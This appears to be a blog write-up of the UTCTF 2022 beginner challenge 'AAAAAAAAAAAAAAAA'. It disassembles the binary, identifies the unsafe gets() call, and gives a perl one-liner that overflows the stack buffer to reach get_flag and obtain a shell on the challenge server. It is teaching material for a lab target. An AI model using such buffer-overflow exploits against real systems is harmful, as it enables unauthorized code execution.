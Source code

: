 ```yaml
---
layout: post
title: "[UTCTF 2022] AAAAAAAAAAAAAAAA"
author: Dieter
---
```


# AAAAAAAAAAAAAAAA

## Problem description
>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
This creatively named beginner challenge provides us with two pieces of information. A binary, and a server that the program is running on.  In this writeup, we are going to explore how a beginner might approach this problem, reasoning with the information given to find the flag.

Downloading the binary file, we can examine its contents to determine that its an x86 ELF executable for linux machines. 

```cpp
$file AAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAA: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6a09f0a7e6d7e792e905fdaaf1561dfbc61d3708, for GNU/Linux 3.2.0, not stripped
```

By using objdump, we can examine the contents of the binary. Objdump is a tool that come preinstalled on UNIX systems, making it an ideal choice for beginners looking to explore some binaries. 

Inside the output, there’s a lot of information. Mostly, it consists of c-library functions and other information. However, there are two functions that might stand out to someone looking to solve this challenge: main, and get_flag.

```cpp
0000000000401156 <main>:
  401156:	f3 0f 1e fa          	endbr64
  40115a:	55                   	push   %rbp
  40115b:	48 89 e5             	mov    %rsp,%rbp
  40115e:	48 83 ec 70          	sub    $0x70,%rsp
  401162:	c6 45 ff 00          	movb   $0x0,-0x1(%rbp)
  401166:	48 8d 45 90          	lea    -0x70(%rbp),%rax
  40116a:	48 89 c7             	mov    %rax,%rdi
  40116d:	b8 00 00 00 00       	mov    $0x0,%eax
  401172:	e8 e9 fe ff ff       	call   401060 <gets@plt>
  401177:	80 7d ff 42          	cmpb   $0x42,-0x1(%rbp)
  40117b:	75 0a                	jne    401187 <main+0x31>
  40117d:	b8 00 00 00 00       	mov    $0x0,%eax
  401182:	e8 07 00 00 00       	call   40118e <get_flag>
  401187:	b8 00 00 00 00       	mov    $0x0,%eax
  40118c:	c9                   	leave
  40118d:	c3                   	ret

000000000040118e <get_flag>:
  40118e:	f3 0f 1e fa          	endbr64
  401192:	55                   	push   %rbp
  401193:	48 89 e5             	mov    %rsp,%rbp
  401196:	48 83 ec 10          	sub    $0x10,%rsp
  40119a:	48 8d 05 63 0e 00 00 	lea    0xe63(%rip),%rax        # 402004 <_IO_stdin_used+0x4>
  4011a1:	48 89 45 f0          	mov    %rax,-0x10(%rbp)
  4011a5:	48 c7 45 f8 00 00 00 	movq   $0x0,-0x8(%rbp)
  4011ac:	00
  4011ad:	48 8b 45 f0          	mov    -0x10(%rbp),%rax
  4011b1:	48 8d 4d f0          	lea    -0x10(%rbp),%rcx
  4011b5:	ba 00 00 00 00       	mov    $0x0,%edx
  4011ba:	48 89 ce             	mov    %rcx,%rsi
  4011bd:	48 89 c7             	mov    %rax,%rdi
  4011c0:	e8 8b fe ff ff       	call   401050 <execve@plt>
  4011c5:	90                   	nop
  4011c6:	c9                   	leave
  4011c7:	c3                   	ret
  4011c8:	0f 1f 84 00 00 00 00 	nopl   0x0(%rax,%rax,1)
  4011cf:	00
```

With a little bit of intuition, it’s obvious that we’re going to want to try and call the function get_flag. Examining the assembly code for this function reveals a syscall, confirming these suspicions. 

```cpp
4011c0:	e8 8b fe ff ff       	call   401050 <execve@plt>
```

Thus, if we can call get_flag, the system will execute the syscall, allowing us to access the flag. With that in mind, how can we call get_flag?

Conveniently, main includes a call to this function! However, it gets jumped over in the program’s normal execution

```cpp
401177:	80 7d ff 42          	cmpb   $0x42,-0x1(%rbp)
40117b:	75 0a                	jne    401187 <main+0x31>
40117d:	b8 00 00 00 00       	mov    $0x0,%eax
401182:	e8 07 00 00 00       	call   40118e <get_flag>
```

The above lines in main represent code that compares the value 1 off of the base of the stack frame with the value 0x42. If the at -0x1(rbp) is not equal to 0x42, we jump to <main+0x31>, skipping the call to get flag. At this point, one might devise a new goal — set -0x1(rbp), and in doing so, successfully make a call to get_flag.

```cpp
  401166:	48 8d 45 90          	lea    -0x70(%rbp),%rax
  40116a:	48 89 c7             	mov    %rax,%rdi
  40116d:	b8 00 00 00 00       	mov    $0x0,%eax
  401172:	e8 e9 fe ff ff       	call   401060 <gets@plt>
```

Just before get flag, we see that there’s a call to gets, a commonly known vulnerable C-function. Gets, as a function, is vulnerable because it does not check if the size of its input fits within the bounds of its output buffer. Hence, a malicious user can utilize gets to overflow a memory buffer, taking control of the program.

With all of this in mind, the exploit in this challenge becomes quite clear; overflow the buffer passed to gets so that it writes 0x42 at -0x1(rbp). Doing so will mean that we fail the jne call in main, successfully calling get_flag! 

Generating the attack string is also pretty easy. In ASCII, the letter ‘B’ has hexadecimal value 0x42. Using perl, we can quickly generate a string containing the character ‘B’ 0x70 times. Since the beginning of main allocates 0x70 bytes onto the stack, if we fill the entire thing with the char B, we’re guaranteed to overwrite the value of -0x1(rbp).

```cpp
perl -e 'print "B" x 0x70' > exploit.txt
```

Finally, if we hop into gdb and run our program with exploit.txt we can see that the overflow is successful, and we are able to make our call to get_flag. 

![gdboutput](/assets/images/utctf2022/AAAAAAAAAAAAAAAA/gdboutput.png)

When running this exploit on the given server, we receive an interactive shell, where we find our flag!